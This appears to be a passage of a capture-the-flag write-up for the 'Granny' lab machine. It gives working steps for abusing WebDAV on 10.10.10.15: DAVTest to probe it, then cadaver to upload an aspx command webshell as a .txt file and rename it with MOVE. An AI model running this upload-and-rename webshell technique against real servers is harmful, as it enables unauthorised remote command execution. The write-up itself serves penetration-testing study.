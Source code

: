 <br />
<img src="{{ site.img_path }}/granny_writeup/Granny_01.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_02.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_03.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_04.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

If I access the leaked path with `nmap`, I can see that it exists but it does not have any content, and I know this because it has **directory listing** enabled. As the technology is **WebDAV** I can use the **[DAVTest](https://code.google.com/archive/p/davtest/){:target="_blank"}** tool to check if I can upload malicious files to the server using the different methods. The tool informs me that I can upload files with different extensions but I can only execute **.txt** files, unfortunately being a **Windows** machine I need to upload **asp** or **aspx** files. Fortunately I have the **MOVE** method enabled so I can upload a **WebShell** with `cadaver` in a **.aspx** file with double extension and then rename it.

> **[DAVTest](https://code.google.com/archive/p/davtest/){:target="_blank"}** tests **WebDAV** enabled servers by uploading test executable files, and then (optionally) uploading files which allow for command execution or other actions directly on the target. It is meant for penetration testers to quickly and easily determine if enabled **DAV** services are exploitable.

> **[cadaver](https://www-kali-org.translate.goog/tools/cadaver/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es){:target="_blank"}** supports file upload, download, on-screen display, in-place editing, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking. Its operation is similar to the standard **BSD** ftp client and the Samba Project’s smbclient.

```bash
davtest
davtest -url http://10.10.10.15

locate cmd.aspx
cp /usr/share/davtest/backdoors/aspx_cmd.aspx ./pwn3d.aspx.txt
cadaver --help
cadaver http://10.10.10.15
  dav:/> put pwn3d.aspx.txt
  dav:/> ls
  dav:/> move pwn3d.aspx.txt pwn3d.aspx
  dav:/> ls
  dav:/> quit
# :)
```

<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_05.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_06.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_07.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_08.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_09.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/granny_writeup/Granny_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
